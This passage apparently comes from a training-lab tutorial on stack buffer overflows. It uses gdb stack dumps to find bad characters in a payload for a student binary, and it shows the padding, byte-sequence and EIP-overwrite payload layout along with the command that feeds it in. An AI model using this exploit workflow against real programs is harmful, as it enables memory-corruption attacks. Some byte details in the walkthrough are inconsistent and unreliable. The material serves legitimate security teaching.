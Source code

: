 And the stack:
```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

Here it depends on our bytes' correct order in the variable `CHARS` to see if any character changes, interrupts, or skips the order. Now we recognize that after the "`\x08`", we encounter the "`\x00`" instead of the "`\x09`" as expected. This tells us that this character is not allowed here and must be removed accordingly:

```bash
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

We send:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

The stack:

```bash
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

To find stack size, for example the size after overwritting:

```bash
(gdb) info proc all
```
